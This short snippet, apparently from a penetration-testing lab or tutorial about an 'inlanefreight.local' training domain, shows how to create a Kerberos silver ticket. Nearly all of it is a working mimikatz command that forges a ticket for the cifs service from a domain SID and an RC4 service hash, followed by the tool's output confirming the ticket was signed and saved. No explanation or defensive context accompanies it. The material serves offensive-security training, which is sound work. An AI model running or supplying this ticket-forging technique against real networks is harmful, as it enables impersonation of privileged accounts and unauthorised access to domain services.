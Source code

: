
## Create a Silver Ticket


	C:\Tools> .\mimikatz.exe "kerberos::golden /domain:inlanefreight.local /user:Administrator /sid:S-1-5-21-1870146311-1183348186-593267556 /rc4:027c6604526b7b16a22e320b76e54a5b /service:cifs /ticket:sql01.kirbi" exit
		
	User      : Administrator
	Domain    : inlanefreight.local (INLANEFREIGHT)
	SID       : S-1-5-21-1870146311-1183348186-593267556
	User Id   : 500
	Groups Id : *513 512 520 518 519
	ServiceKey: 027c6604526b7b16a22e320b76e54a5b - rc4_hmac_nt
	Service   : cifs
	Lifetime  : 1/15/2024 9:01:04 AM ; 1/12/2034 9:01:04 AM ; 1/12/2034 9:01:04 AM
	-> Ticket : sql01.kirbi

	 * PAC generated
	 * PAC signed
	 * EncTicketPart generated
	 * EncTicketPart encrypted
	 * KrbCred generated

	Final Ticket Saved to file !

	mimikatz(commandline) # exit
	Bye!
	


![Mimikatz Silver](/Silver-Ticket/images/Mimikatz-Silver.png) 
